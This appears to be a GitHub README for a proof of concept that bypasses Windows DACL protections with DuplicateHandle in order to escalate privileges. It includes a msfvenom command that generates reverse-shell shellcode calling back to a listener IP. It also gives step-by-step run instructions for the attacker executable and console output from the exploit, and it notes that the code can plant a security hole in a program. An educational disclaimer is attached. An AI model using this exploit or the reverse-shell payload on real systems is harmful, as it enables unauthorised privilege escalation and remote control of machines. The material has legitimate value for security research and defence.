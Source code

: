 # BypassDACL
PoC for Bypass DACL in Windows with DuplicateHandle.
You can read more about this code: https://glory-part-39d.notion.site/Security-of-Handles-in-Windows-caaa2531a0914ef0b7779ea366f69bcb
These codes allow you to create a security hole in your program. You can also use this vulnerability and cause privilege escalation.
**Note that this is a POC and is for educational purposes only**
## Run this code
Generate shellcode for AttackerPE.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.148 LPORT=443 -f c -b \x00\x0a\x0d
copy shellcode to AttackerSource.cpp and compile it.
``
run powershell.exe with Admin privilege
run notepad.exe with normal-user
``
run vendor.exe with Admin privilege
```
Vendor.exe
Enter the Process name that you want get Handle (like powershell.exe): powershell.exe
Enter the target Process name (like notepad.exe): notepad.exe
[+] SeDebugPrivilege enabled successfully.
[+] PID of powershell.exe 8420
[+] Handle of powershell.exe is OK
[*] Run Process Explorer and find handles of notepad.exe then find a handle named powershell.exe
and write address of handle in AttackerPE code...
[*] Sleep(INFINITE) After running AttackerPE.exe for exit this code press Ctrl+C
```


open **procexp64.exe** and copy address of handle (powershell.exe) from **notepad.exe**
Past address to A
run AttackerPE.exe with normal-user
